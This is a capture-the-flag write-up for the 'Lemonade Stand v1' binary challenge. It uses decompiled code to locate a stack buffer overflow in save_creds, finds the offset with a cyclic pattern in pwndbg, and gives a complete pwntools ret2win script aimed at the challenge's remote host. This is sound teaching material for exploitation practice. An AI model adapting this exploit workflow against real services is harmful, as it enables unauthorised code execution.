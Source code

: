 # Lemonade Stand v1 

This challenge is an basic ret2win attack.

## Basic file checks

We see that the RELRO is full enabled so can't write anything in the GOT table to perform a "GOT overwrite" attack. \
The NX is also enabled, so that means we can't stored input or data cannot be executed as code to perform a shellcode attack.
![Alt Text](img/checksec.png)

## View the Source Code and find the vulnerability

We used Ghidra to disassemble the binary.\
The first thing that we want to do is to go to Functions section and select the main() to see\
what the binary is actually doing and what funtions are called.
```c
void main(void)

{
  long lVar1;
  
  setup();
  puts("\x1b[1;33m");
  cls();
  do {
    while( true ) {
      while (lVar1 = menu(), lVar1 == 1) {
        buy_normal();
      }
      if (lVar1 == 2) break;
      error("We don\'t sell grapes!");
    }
    buy_large();
  } while( true );
}
```


We saw that the main is calling two funcrions buy_normal()" and buy_large().\
We navigate to them and we saw that both of them they calling a save_creds() func.
```c
void buy_large(void)

{
  if (COINS < 6) {
    error("You don\'t have enough coins!");
    save_creds();
  }
  else {
    printf("\n%s[+] Enjoy your large lemonade!\n%s",&DAT_0040101e,&DAT_00400c88);
    COINS = COINS - 5;
  }
  return;
}
```

This is where the interesting thing starts. \
We see that we have a buffer overflow in the local_48 variable cause the size of it is 64 bytes and read can take 74 bytes

```assembly 
        00400ac7 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
```

```c

void save_creds(void)

{
  long lVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  puts(
      "\n\nI can give you a free lemonade but I need your information for next time so you can pay m e back!\n"
      );
  printf("1. Yes\n2. No thanks\n\n>> ");
  lVar1 = read_num();
  if (lVar1 == 1) {
    printf("\nPlease tell me your name: ");
    read(0,&local_28,30);
    printf("\nPlease tell me your surname: ");
    read(0,&local_48,74);
    puts("Thanks a lot! Here is your lemonade!\n");
  }
  return;
}
```
We also found a function that is never been called and it will print the flag if somehow we achieve it (grapes()).
That's our goal.

```c

void grapes(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

## Exploit

First we want to find the offset.\
We will use pwndbg for this, to create a pattern known as De Bruijn Sequences to fill the padding for the buffer.
The pwntools calculate the entire 8 digits and found the offset to be 64, but we only care for the first 4 bytes so it will be 64 + 4 * 2 = 72 bytes

```assembly
>> 1                                                                                         
                                                                                             
Please tell me your name: leo                                                                
                                                                                             
Please tell me your surname: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                         
Thanks a lot! Here is your lemonade!                                                         
                                                                                             
                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                         
0x000000000040616a in ?? ()                                                                  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*RAX  0x26
 RBX  0x0
*RCX  0x7ffff7910104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7bed8c0 ◂— 0x0
*RDI  0x1
*RSI  0x7ffff7bec7e3 (_IO_2_1_stdout_+131) ◂— 0xbed8c0000000000a /* '\n' */
*R8   0x25
*R9   0x7ffff796eb90 ◂— mov r10, qword ptr [rsi - 0x1e]
*R10  0x20657361656c500a ('\nPlease ')
*R11  0x246
*R12  0x400780 (_start) ◂— xor ebp, ebp
*R13  0x7fffffffde50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
*RIP  0x40616a
────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
Invalid address 0x40616a
──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ rsp 0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
01:0008│     0x7fffffffdd68 —▸ 0x400bee (main+72) ◂— jmp 0x400bfd
02:0010│     0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
03:0018│     0x7fffffffdd78 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
04:0020│     0x7fffffffdd80 ◂— 0x2000000000
05:0028│     0x7fffffffdd88 —▸ 0x7fffffffde58 —▸ 0x7fffffffe1c0 ◂— '/home/vein/htb/hacktheboo_practise/pwn_lemonade_stand_v1/lemonade_stand_v1'
06:0030│     0x7fffffffdd90 ◂— 0x100000000
07:0038│     0x7fffffffdd98 —▸ 0x400ba6 (main) ◂— push rbp
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0         0x40616a
   1   0x7fffffffdd70
   2         0x400bee main+72
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> aaaaaakaaaaaaalaaaaaaamaaa
Undefined command: "aaaaaakaaaaaaalaaaaaaamaaa".  Try "help".
pwndbg> cyclic -l iaaaaaaa
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
```

Then we wrote a simple python script with pwntools to return to grapes

```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./lemonade_stand_v1', checksec = False)
# p = process(elf.path)
p = remote('94.237.48.248', 39040)
# context.log_level = 'debug'

padding = 72 * b'a' 
# pop_rdi = 0x400c63

payload = flat(
          padding,
          elf.symbols.grapes
              )

p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'2')
p.sendlineafter(b'>> ', b'1')
p.recvuntil(':')
p.sendline('leo')
p.recvuntil(':')
p.send(payload)
success(p.recvall())
```

And we successfully pwn it!

![Alt Text](img/flag.png)
